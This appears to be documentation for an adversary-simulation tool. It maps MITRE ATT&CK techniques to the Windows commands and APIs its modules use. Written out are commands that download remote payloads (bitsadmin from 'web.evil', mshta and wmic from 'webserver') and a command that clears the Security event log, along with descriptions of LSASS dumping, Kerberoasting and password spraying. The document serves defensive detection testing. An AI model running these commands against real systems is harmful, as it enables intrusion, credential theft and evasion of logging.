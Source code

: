 Techniques
^^^^^^^^^^



=======================================
Deobfuscate/Decode Files or Information
=======================================
T1140_

.. _T1140: https://attack.mitre.org/techniques/T1140/


| This module uses the CreateProcess Win32 API to execute
| **certutil.exe -decode encodedb64.txt decoded.exe**

====================================
Signed Binary Proxy Execution: Mshta
====================================
T1218.005_

.. _T1218.005: https://attack.mitre.org/techniques/T1218/005/


| This module uses the CreateProcess Win32 API to execute
| **mshta.exe http://webserver/payload.hta**


====================================
Signed Binary Proxy Execution: CMSTP
====================================
T1218.003_

.. _T1218.003: https://attack.mitre.org/techniques/T1218/003/


| This module uses the CreateProcess Win32 API to execute
| **cmstp.exe /s /ns C:\Users\Administrator\AppData\Local\Temp\XKNqbpzl.txt**

=========
BITS Jobs
=========
T1197_

.. _T1197: https://attack.mitre.org/techniques/T1197/


| This module uses the CreateProcess Win32 API to execute
| **bitsadmin.exe /transfer job /download /priority high http://web.evil/sc.exe C:\Windows\Temp\winword.exe**

=======================================
Signed Binary Proxy Execution: Rundll32
=======================================
T1218.011_

.. _T1218.011: https://attack.mitre.org/techniques/T1218/011/

| This module uses the CreateProcess Win32 API to execute
| **rundll32.ex C:\Windows\twain_64.dll**


===================================================
Indicator Removal on Host: Clear Windows Event Logs
===================================================
T1070.001_

.. _T1070.001: https://attack.mitre.org/techniques/T1070/001/

Variation 1
-----------

| This module uses the System.Diagnostics .NET namespace to delete the Security Event Log.

Variation 2
-----------

| This module uses the Win32 API CreateProcess to execute a specific command: 
| **wevtutil.exe cl Security**

=====================
XSL Script Processing
=====================
T1220_

.. _T1220: https://attack.mitre.org/techniques/T1220/

| This module uses the CreateProcess Win32 API to execute
| **wmic.exe os get /FORMAT "http://webserver/payload.xsl":**


================================================
Process Injection: Portable Executable Injection
================================================
T1055.002_

.. _T1055.002: https://attack.mitre.org/techniques/T1055/002/

| This module uses the CreateProcess, OpenProcess, VirtualAllocEx, WriteProcessMemory and CreateRemoteThread Win32 API functions to inject an innocuous shellcode.

==============================================
Process Injection: Asynchronous Procedure Call
==============================================
T1055.004_

.. _T1055.004: https://attack.mitre.org/techniques/T1055/004/

| This module uses the CreateProcess, OpenProcess, VirtualAllocEx, WriteProcessMemory and QueueUserAPC Win32 API functions to inject an innocuous shellcode.

==============================
Brute Force: Password Spraying
==============================
T1110.003_

.. _T1110.003: https://attack.mitre.org/techniques/T1110/003/

Variation 1
-----------

| This module uses the LogonUser Win32 API to test a single password across random users obtained via LDAP.

Variation 2
-----------

| This module uses the WNetAddConnection2 Win32 API to test a single password across random users and random hosts obtained via LDAP.

==============================================
Steal or Forge Kerberos Tickets: Kerberoasting
==============================================
T1558.003_

.. _T1558.003: https://attack.mitre.org/techniques/T1558/003/

| This module uses the KerberosRequestorSecurityToken Class to obtain Kerberos service tickets.

===================================
OS Credential Dumping: LSASS Memory
===================================
T1003.001_

.. _T1003.001: https://attack.mitre.org/techniques/T1003/001/

| This module uses the GetProcessesByName and MiniDumpWriteDump Win32 API functions to create a memory dump of the lsass.exe process.

======================================
System Network Configuration Discovery
======================================
T1016_

.. _T1016: https://attack.mitre.org/techniques/T1016/


| This module uses the CreateProcess Win32 API to execute
| **ipconfig.exe /all"**

============================
File and Directory Discovery
============================
T1083_

.. _T1083: https://attack.mitre.org/techniques/T1083/


| This module uses the CreateProcess Win32 API to execute
| **dir.exe c:\ >> %temp%\download**
| **dir.exe C:\Users\ >> %temp%\download**

=======================
Network Share Discovery
=======================
T1135_

.. _T1135: https://attack.mitre.org/techniques/T1135/

| This module uses the NetShareEnum Win32 API function to enumerate shared on remote endpoints randomly picked using LDAP.

========================
Network Service Scanning
========================
T1046_

.. _T1046: https://attack.mitre.org/techniques/T1046/

| This module uses the  System.Net.Sockets .NET namespace to scan ports on remote endpoints randomly picked using LDAP.

================================
Account Discovery: Local Account
================================
T1087.001_

.. _T1087.001: https://attack.mitre.org/techniques/T1087/001/

| This module uses the CreateProcess Win32 API to execute
| **net.exe user**


=================================
Account Discovery: Domain Account
=================================
T1087.002_

.. _T1087.002: https://attack.mitre.org/techniques/T1087/002/

Variation 1
-----------

| This module uses the Sytem.DirectoryServices .NET NameSpace to query a domain environment using LDAP.

Variation 2
-----------

| This module uses the CreatePRocess Win32 API to execute:
| **net.exe user /domain**

========================
System Service Discovery
========================
T1007_

.. _T1007: https://attack.mitre.org/techniques/T1007/

| This module uses the CreateProcess Win32 API to execute
| **net.exe start**
| **tasklist.exe /svc**

===========================
System Owner/User Discovery
===========================
T1033_

.. _T1033: https://attack.mitre.org/techniques/T1033/

| This module uses the CreateProcess Win32 API to execute
| **whoami.exe**
| **query user**

====================================
System Network Connections Discovery
====================================
T1049_

.. _T1049: https://attack.mitre.org/techniques/T1049/

| This module uses the CreateProcess Win32 API to execute
| **netstat.exee**
| **net.exe use**
| **net.exe sessions**

==========================================
Remote Services: Windows Remote Management
==========================================
T1021.006_

.. _T1021.006: https://attack.mitre.org/techniques/T1021/006/

| This module uses System.Management.Automation .NET namespace to execute commands on randomly picked remote hosts using WinRM.